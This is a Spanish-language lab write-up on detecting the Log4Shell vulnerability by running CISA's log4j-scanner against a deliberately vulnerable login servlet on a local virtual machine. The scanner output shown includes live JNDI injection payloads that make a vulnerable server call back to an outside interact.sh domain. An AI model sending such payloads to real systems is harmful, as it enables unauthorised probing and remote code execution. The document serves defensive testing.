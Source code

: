 ### Aplicación web vulnerable: servlet con formulario

La aplicación web de [este otro proyecto](https://github.com/kozmer/log4j-shell-poc/tree/main/vulnerable-application) ofrece un formulario web de login cuyo campo *User* se registra usando *Log4J*

-----------------------------------------------------------------------------------
# Scanner de la vulnerabilidad

Para detectar si un servidor web presenta la vulnerabilidad se ha utilizado el [proyecto de GitHub](https://github.com/cisagov/log4j-scanner) de la agencia de seguridad de Estados Unidos, desarrollado para detectar *Log4Shell*

La parte de éste que se va a utilizar (directorio *log4j-scanner*), no obstante, se basa en realidad en [este otro proyecto](https://github.com/fullhunt/log4j-scan)

```sh
# Clonar repositorio
git clone https://github.com/cisagov/log4j-scanner.git
# Instalar dependencias de Python
cd log4j-scanner/log4j-scanner/
pip3 install -r requirements.txt
```

El scanning consiste en ejecutar lo siguiente:
```sh
./log4j-scan.py -u http://192.168.56.200:8080
```
El resultado será el que se muestra a continuación:
```text
[•] CVE-2021-44228 - Apache Log4j RCE Scanner
[•] Scanner provided by FullHunt.io - The Next-Gen Attack Surface Management Platform.
[•] Secure your External Attack Surface with FullHunt.io.
[•] Initiating DNS callback server (interact.sh).
[%] Checking for Log4j RCE CVE-2021-44228.
[•] URL: http://192.168.56.200:8080
[•] URL: http://192.168.56.200:8080 | PAYLOAD: ${jndi:ldap://192.168.56.200.r0on2hl2xxg149f49322m3t3484rh671n.interact.sh/2uol4pt}
[•] Payloads sent to all URLs. Waiting for DNS OOB callbacks.
[•] Waiting...
[!!!] Targets Affected
{"timestamp": "2021-12-31T06:24:53.630956969Z", "host": "192.168.56.200.r0on2hl2xxg149f49322m3t3484rh671n.r0on2hl2xxg149f49322m3t3484rh671n.interact.sh", "remote_address": "81.47.231.70"}
{"timestamp": "2021-12-31T06:24:53.731751129Z", "host": "192.168.56.200.r0on2hl2xxg149f49322m3t3484rh671n.r0on2hl2xxg149f49322m3t3484rh671n.interact.sh", "remote_address": "80.58.184.143"}
```
En caso de que el servidor no sea vulnerable (como por ejemplo no lo es el servidor Apache instalado en esa misma máquina virtual), entonces se tendrá lo siguiente:
```text
[•] CVE-2021-44228 - Apache Log4j RCE Scanner
[•] Scanner provided by FullHunt.io - The Next-Gen Attack Surface Management Platform.
[•] Secure your External Attack Surface with FullHunt.io.
[•] Initiating DNS callback server (interact.sh).
[%] Checking for Log4j RCE CVE-2021-44228.
[•] URL: http://192.168.56.200
[•] URL: http://192.168.56.200 | PAYLOAD: ${jndi:ldap://192.168.56.200.c823fr0q26y14og696vl56l5ql70p76ng.interact.sh/6c2xf7b}
[•] Payloads sent to all URLs. Waiting for DNS OOB callbacks.
[•] Waiting...
[•] Targets do not seem to be vulnerable.
```
